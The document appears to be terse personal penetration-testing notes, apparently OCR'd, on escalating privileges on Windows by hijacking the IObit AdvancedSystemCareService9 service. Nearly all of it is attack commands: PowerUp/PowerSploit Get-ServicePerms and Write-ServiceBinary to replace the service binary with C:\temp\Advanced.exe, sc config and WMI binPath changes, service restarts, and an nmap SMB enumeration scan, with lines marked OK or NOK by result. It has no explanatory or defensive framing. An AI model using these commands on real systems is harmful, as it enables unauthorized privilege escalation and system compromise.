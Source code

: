 












C:/Program Files (x86)/IObit/Advanced SystemCare\ASCService.exe

ASCService.exe


```ps1
Import-Module ./PowerUp.ps1
Get-ServicePerms | Out-File -Encoding ASCII ServicePerms.txt
```


https://www.harmj0y.net/blog/powershell/powerup-a-usage-guide/

NOK: Write-ServiceBinary -ServiceName 'AdvancedSystemCareService9' -Path <HijackPath>
NOK: Write-ServiceBinary -ServiceName 'AdvancedSystemCareService9'


https://powersploit.readthedocs.io/en/latest/Privesc/Write-ServiceBinary/


NOK: Set-ServiceBinaryPath -Name 'AdvancedSystemCareService9'  -Path 'C:\temp\Advanced.exe'

OK ! Write-ServiceBinary -ServiceName 'AdvancedSystemCareService9' -ServicePath 'C:\temp\Advanced.exe'

Restart-Service -Name 'AdvancedSystemCareService9'



nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse $IP -oN nmap.shares.txt


Start-Service -Name 'AdvancedSystemCareService9'



Stop-Service -Name 'AdvancedSystemCareService9'
Get-Service -Name 'AdvancedSystemCareService9'

gsv -Name 'AdvancedSystemCareService9' | select -property *



Get-WmiObject win32_service | ?{$_.Name -like 'AdvancedSystemCareService9'} | select Name, DisplayName, State, PathName

Get-WmiObject win32_service | ?{$_.Name -like 'AdvancedSystemCareService9'} | select PathName


C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe

C:/Program~3\IObit\advanc~1

NOK: SC CONFIG AdvancedSystemCareService9 binPath= "C:\temp\Advanced.exe"


NOK: Get-WmiObject win32_service -filter "Name='AdvancedSystemCareService9'" | Invoke-WmiMethod -Name Change -ArgumentList @($null,$null,$null,$null,$null,"C:\temp\Advanced.exe")
